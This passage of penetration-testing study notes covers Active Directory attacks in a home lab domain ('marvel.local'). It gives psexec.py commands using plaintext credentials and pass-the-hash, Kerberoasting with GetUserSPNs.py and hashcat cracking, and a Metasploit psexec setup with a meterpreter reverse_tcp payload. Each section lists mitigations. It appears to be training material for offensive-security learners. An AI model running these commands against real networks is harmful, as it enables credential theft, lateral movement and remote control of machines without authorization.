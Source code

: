 - To gain access and shell with passwords and hashes found:

```
psexec.py marvel/fcastle:Password1@192.168.57.142
#use creds from crackmapexec to gain access to other machine

psexec.py "Frank Castle":@192.168.57.141 -hashes <complete NTLM hash>
#alt pass the hash method
```

* Mitigations:

* Limit account reuse

* Disable Guest and Administrator accounts

* Use strong passwords

* Privilege Access Management (PAM)

* Kerberoasting:

* Goal of [Kerberoasting](https://medium.com/@Shorty420/kerberoasting-9108477279cc) is to get TGS (Ticket Granting Service) and decrypt the server's account hash.

```shell
sudo GetUserSPNs.py marvel.local/fcastle:Password1 -dc-ip 192.168.57.140 -request
#needs username, password from domain account and its ip
#this provides us the hash, can be cracked using hashcat

hashcat -m 13100 hash.txt rockyou.txt
#cracks the hash
```

* Mitigations:

* Strong passwords

* Least privilege (service accounts should not be made domain admins)

* Token impersonation:

* Tokens - temporary keys that allow access without using creds

* Types:
* delegate (login, RDP)
* impersonate (drive, script).

```shell
msfconsole

use exploit/windows/smb/psexec

set RHOSTS 192.168.57.141

set smbdomain marvel.local

set smbpass Password1

set smbuser fcastle

set target 2
#native upload

options

set payload windows/x64/meterpreter/reverse_tcp

set lhost eth0

run
#gives meterpreter session
```